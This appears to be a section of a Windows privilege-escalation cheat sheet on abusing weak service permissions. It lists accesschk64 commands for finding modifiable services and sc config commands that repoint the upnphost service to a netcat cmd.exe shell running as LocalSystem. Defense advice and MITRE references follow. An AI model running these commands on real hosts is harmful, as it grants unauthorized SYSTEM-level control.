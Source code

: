 ```bash
accesschk64.exe -uwcqv *
# Search for all services that Authenticated Users can modify
accesschk64.exe -uwcqv "Authenticated Users" *
# Search for all services that everyone can modify
accesschk64.exe -uwcqv "Everyone" *
accesschk64.exe -ucqv SERVICE_NAME
accesschk64.exe -c SERVICE_NAME
```

*Common* Options:

- **-u**: Suppress errors
- **-w**: Show only objects that have write access
- **-c**: Searh for Windows Services
- **-q**: Omit Banner
- **-v**: Verbose (includes Windows Vista Integrity Level)

```bash
# Bash
sc qc SERVICE_NAME
sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

# PowerShell
Get-Service
Get-Service | Where-Object {$_.Name -eq "SERVICE_NAME"} | Select -Property *
Restart-Service -Name SERVICE_NAME
```

- **binpath=** : Specifies a path to the service binary file.
- **obj=**: Specifies a name of an account in which a service will run, or specifies a name of the Windows driver object in which the driver will run.
- **password=**: Specifies a password. This is required if an account other than the LocalSystem account is used.

:white_check_mark: How to protect against or detect that technique:

- *Passive Defense*: Audit services that are running under administrator account or SYSTEM and make sure that they can ony be manipulated by administrators.
- *Active Defense*: Monitor processes and command-line arguments for actions that could create or modify services.

For more information about that technique refer to:

- [T1007 - System Service Discovery](https://attack.mitre.org/techniques/T1007/)
- [T1543.003 - Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)

###### *If you don't know, now you know : [Service Security and Access Rights](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights)*

- SERVICE_CHANGE_CONFIG: We can configure an arbitrary executable to launch when a service starts
- WRITE_DAC: We can modify the permissions on a service to grant ourself SERVICE_CHANGE_CONFIG access.
- WRITE_OWNER: We can become owner of it
- GENERIC_WRITE: It inherits the SERVICE_CHANGE_CONFIG permissions
- GENERIC_ALL: It inherits the SERVICE_CHANGE_CONFIG permissions
